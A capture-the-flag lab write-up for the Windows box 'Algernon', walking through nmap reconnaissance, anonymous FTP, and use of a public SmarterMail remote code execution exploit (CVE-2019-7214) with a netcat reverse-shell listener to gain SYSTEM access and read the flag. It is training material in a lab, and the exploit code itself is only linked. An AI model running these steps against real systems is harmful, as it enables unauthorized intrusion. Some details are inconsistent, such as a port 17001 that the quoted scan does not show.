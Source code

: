 # ​Proving Grounds - Easy Windows - Algernon

- **Points** 10
- **Level** Easy
- **Number of Flags** 1
- **Vector Type** SmarterMail
- **IP** 192.168.53.65


---

| Name     | OS      | Job Roles                  | Skills                  |
| -------- | ------- | -------------------------- | ----------------------- |
| Algernon | Windows | Network Penetration Tester | Web Application Attacks |

---

# About

In this lab, we will exploit a remote code execution vulnerability in build 6985 of the SmarterMail application. This exercise enhances your skills in identifying and exploiting vulnerabilities for gaining access to systems.

---

# Summary

This lab demonstrates exploiting a remote code execution vulnerability in SmarterMail build 6985 to gain SYSTEM-level access on a Windows server. Learners will identify the application version, leverage an RCE exploit, and use a reverse shell payload to compromise the target. This lab emphasizes web application exploitation and highlights the risks of unpatched software.

---

## Learning Objectives

**After completion of this lab, learners will be able to:**

- Enumerate open ports and services to identify the SmarterMail application running on port 9998.
- Confirm the application version and search for applicable exploits.
- Deploy the SmarterMail RCE exploit with a reverse shell payload.
- Verify SYSTEM-level access upon successful exploitation.
- Understand the importance of applying patches to mitigate known vulnerabilities.


---

## Recon

- NMap scan
```python
nmap -A 192.168.53.65
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 09:10 UTC
Nmap scan report for 192.168.53.65
Host is up (0.00086s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 07-17-25  02:07AM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_04-29-20  10:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
9998/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Thu, 17 Jul 2025 09:11:05 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
|_http-server-header: Microsoft-IIS/10.0
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1903 - 21H1
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-17T09:11:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 443/tcp)
HOP RTT     ADDRESS
1   0.57 ms 192.168.49.1
2   0.96 ms 192.168.53.65

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.88 seconds

```


---

## Basic Enumeration
- Anonymous FTP login is enabled, allowing unauthenticated access.
```python
ftp 192.168.53.65
Connected to 192.168.53.65.
220 Microsoft FTP Service
Name (192.168.53.65:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

> [!TIP]
> No sensitive data was found in the accessible FTP directories.(Rabbit Hole)

- Port 80 is just a windows IIS page.
- Port 9998 is a login page.

---

## Port 9998 Enumeration
- Opening port 9998 in browser redirects to http://192.168.53.65:9998/interface/root#/login.
- Which is a login page belongs to **smartmailer**.
- Researching exploits for SmarterMail on Google we come across an interesting exploit.
- Exploit link https://www.exploit-db.com/exploits/49216

---

## Exploiting CVE-2019-7214 to get initial access

- Looking at the `nmap` results from earlier we do have .NET remoting running on port 17001. As such this exploit should be applicable to the target machine.
- Exploit configuration . We just need to update target ip (HOST) and our machine ip (LHOST) in the script.
- Then we need to start a netcat listener to get reverse shell.
```python
nc -lvnp 4444
```
- After starting the listener, we can execute the exploit to get reverse shell.
```python
python3 49216
```
- We will get the shell in our netcat listener as **Administrator**
```python
nc -lvnp 4444 
listening on [any] 4444 ...
connect to [192.168.49.53] from (UNKNOWN) [192.168.53.65] 49906
bash -i
PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> 
```
---

## Flag Extraction
- Now we can just navigate to **C:\Users\Administrator\Desktop** and read the flag inside **proof.txt** file.
```python
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/29/2020   9:29 PM           1450 Microsoft Edge.lnk                                                    
-a----        7/17/2025   2:07 AM             34 proof.txt                                                             


PS C:\Users\Administrator\Desktop> type proof.txt
76fb8ea14********1c2cbbb
```

---

## Author

[Zishan Ahamed Thandar](https://zishanadthandar.github.io)

